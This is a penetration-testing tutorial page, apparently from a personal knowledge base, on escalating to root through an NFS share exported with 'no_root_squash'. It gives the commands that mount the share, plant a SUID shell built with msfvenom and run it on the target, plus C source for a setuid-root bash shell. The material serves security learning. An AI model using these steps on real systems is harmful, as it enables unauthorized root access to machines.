 # Network File Sharing (NFS)
***

Network File Sharing (NFS) is a protocol used for sharing files and directories across a network. Its configuration file is typically created during NFS server installation and is commonly found at the path /etc/exports. A key factor in understanding a potential privilege escalation vector with NFS is the "no_root_squash" option.

When an NFS server is configured with "no_root_squash," it means that NFS won't alter the permissions of files associated with the root user. Normally, NFS changes the root user's privileges to that of the "nfsnobody" user, stripping files of their root privileges. However, if "no_root_squash" is enabled on a writable share, it allows the creation of executables with the SUID (Set User ID) bit set, which can then be executed on the target system.

## Example
In the provided image, it's evident that the "/tmp" directory is configured with the "no_root_squash" flag. This flag indicates that the NFS share of this directory retains the ownership of files and folders by the root user.

![atl text](https://raw.githubusercontent.com/masjadaan/Knowledgebase/main/Penetration_Testing/Exploitation/Linux/Privilege_Escalation/54e5801b4ff244269fca7e8f8215ee0c.png)

### Attacker Machine
```sh
# Enumerate mountable shares
sudo su
showmount -e <targetIP>

# mount the share with no_root_squash to attacker machine
mkdir /tmp/nfs
mount -o rw,vers=2 <targetIP>:/tmp /tmp/nfs

# Msfvenom
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

# Set SUID and make it executable
chmod +xs /tmp/nfs/shell.elf
```

### Target Machine
```sh
# execute the shell.elf
/tmp/shell.elf
```


#### Notes:
- instead of using msfvenom, you can create shell.c
```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}
```
